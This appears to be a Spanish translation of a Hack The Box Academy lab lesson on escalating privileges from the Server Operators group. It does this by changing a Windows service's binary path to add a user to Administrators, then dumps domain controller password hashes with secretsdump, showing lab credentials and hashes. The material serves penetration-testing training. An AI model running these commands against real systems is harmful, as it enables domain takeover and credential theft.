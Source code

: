 # Operadores de servidor

---

El[Operadores de servidor](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)El grupo permite a los miembros administrar servidores de Windows sin necesidad de asignación de privilegios de administrador de dominio. Es un grupo muy privilegiado que puede iniciar sesión localmente a servidores, incluidos los controladores de dominio.

La membresía de este grupo confiere al poderoso`SeBackupPrivilege`y`SeRestorePrivilege`privilegios y la capacidad de controlar los servicios locales.

#### Consulta del Servicio de Apelición

Examinemos el`AppReadiness`servicio. Podemos confirmar que este servicio comienza como sistema utilizando el`sc.exe`utilidad.

  Operadores de servidor

```cmd-session
C:\htb> sc qc AppReadiness

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

#### Comprobación de permisos de servicio con PSService

Podemos usar el visor/controlador de servicio[PSService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), que forma parte de la suite Sysinternals, para verificar los permisos del servicio.`PsService`funciona como el`sc`Utilidad y puede mostrar el estado y las configuraciones del servicio y también le permite comenzar, detener, detener, reanudar y reiniciar los servicios tanto localmente como en hosts remotos.

  Operadores de servidor

```cmd-session
C:\htb> c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All
```

Esto confirma que el grupo de operadores del servidor tiene[Servicio_all_access](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights)Acceso a la derecha, lo que nos da control total sobre este servicio.

#### Verificación de membresía local del grupo de administración

Echemos un vistazo a los miembros actuales del grupo de administradores locales y confirmemos que nuestra cuenta objetivo no está presente.

  Operadores de servidor

```cmd-session
C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
The command completed successfully.
```

#### Modificación de la ruta binaria de servicio

Cambiemos la ruta binaria para ejecutar un comando que agrega a nuestro usuario actual al grupo de administradores locales predeterminados.

  Operadores de servidor

```cmd-session
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS
```

#### Comenzando el servicio

Comenzar el servicio falla, lo que se espera.

  Operadores de servidor

```cmd-session
C:\htb> sc start AppReadiness

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

#### Confirmando la membresía del grupo de administración local

Si verificamos la membresía del Grupo de Administradores, vemos que el comando se ejecutó con éxito.

  Operadores de servidor

```cmd-session
C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.
```

#### Confirmación de acceso de administrador local en el controlador de dominio

Desde aquí, tenemos un control total sobre el controlador de dominio y podríamos recuperar todas las credenciales de la base de datos NTDS y acceder a otros sistemas, y realizar tareas de explotación posterior.

  Operadores de servidor

```shell-session
xnoxos@htb[/htb]$ crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

SMB         10.129.43.9     445    WINLPE-DC01      [*] Windows 10.0 Build 17763 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)
```

#### Recuperación de hash de contraseña NTLM del controlador de dominio

  Operadores de servidor

```shell-session
xnoxos@htb[/htb]$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrator:aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrator:des-cbc-md5:d60dfbbf20548938
[*] Cleaning up...
```